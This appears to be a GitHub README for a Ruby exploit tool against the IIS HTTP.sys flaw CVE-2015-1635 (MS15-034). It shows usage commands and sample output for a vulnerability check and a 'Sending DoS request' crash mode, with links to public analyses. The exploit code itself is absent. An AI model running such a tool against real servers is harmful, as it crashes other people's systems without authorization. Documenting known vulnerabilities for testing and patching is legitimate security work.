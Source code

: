 # CVE-2015-1635 | MS15-034 | IIS HTTP.sys 
HTTP.sys in Microsoft Windows 7 SP1, Windows Server 2008 R2 SP1, Windows 8, Windows 8.1, and Windows Server 2012 Gold and R2 allows remote attackers to execute arbitrary code via crafted HTTP requests, aka "HTTP.sys Remote Code Execution Vulnerability."

# Usage

**Exploit**
```
ruby cve-2015-1635_exploit.rb <TARGET> [check|exploit] [PORT] [PATH]
```

## PoC

```
-> ruby cve-2015-1635_exploit.rb 172.16.16.142
[*] IIS version: Microsoft-IIS/8.5
[*] Server message: Requested Range Not Satisfiable
[*] Server code: 416
[+] Server is vulnerable!
[-] You can use 'exploit' switch to crash the target

-> ruby cve-2015-1635_exploit.rb 172.16.16.142 exploit
[+] Host is vulnerable!
[+] Sending DoS request...
```

![](cve-2015-1635_poc.png)

# References
- http://pastebin.com/ypURDPc4
- http://www.securitysift.com/an-analysis-of-ms15-034/
- https://technet.microsoft.com/en-us/library/security/ms15-034.aspx
- http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635
- https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/http/ms15_034_ulonglongadd.rb

